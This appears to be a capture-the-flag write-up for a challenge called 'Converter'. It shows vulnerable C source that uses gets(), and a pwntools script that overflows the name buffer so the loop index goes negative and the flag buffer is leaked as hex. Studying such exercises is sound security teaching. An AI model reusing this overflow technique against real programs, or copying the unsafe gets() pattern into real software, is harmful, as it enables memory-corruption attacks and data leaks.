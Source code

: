 # Converter

Looking at source code, we see that we can overflow the name buffer and change the value of `i` variable to a negative value which results in the flag buffer being printed as hex in the loop as it only checks if `i < 16` and not if `i >= 0`. Using gdb is necessary here to see where the variable and buffers are located in memory. The flag is printed in hex so we need to convert it back to ascii.

### Source code
```C
#include <stdio.h>
#include <stdlib.h>

int main()
{
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    int i = 0;

    char name[16];
    printf("input text to convert to hex: \n");
    gets(name);

    char flag[64];
    fgets(flag, 64, fopen("flag.txt", "r"));
    // TODO: PRINT FLAG for cool people ... but maybe later

    while (i < 16)
    {
        // the & 0xFF... is to do some typecasting and make sure only two characters are printed ^_^ hehe
        printf("%02X", (unsigned int)(name[i] & 0xFF));
        i++;
    }
    printf("\n");
}
```

### Solution script
```python
from pwn import *
context.arch = "amd64"

io = process("./chal")
# io = remote("amt.rs", 31630)

if args.GDB:
	gdbscript="""
	b *main+172
	c
	"""
	gdb.attach(io, gdbscript=gdbscript)

payload = b"A"*28
payload += p32(-64, signed=True)

io.sendlineafter(b"hex:", payload)

io.recvline()
data = io.recvline()
info(f"flag is {unhex(data)}")
io.interactive()
```
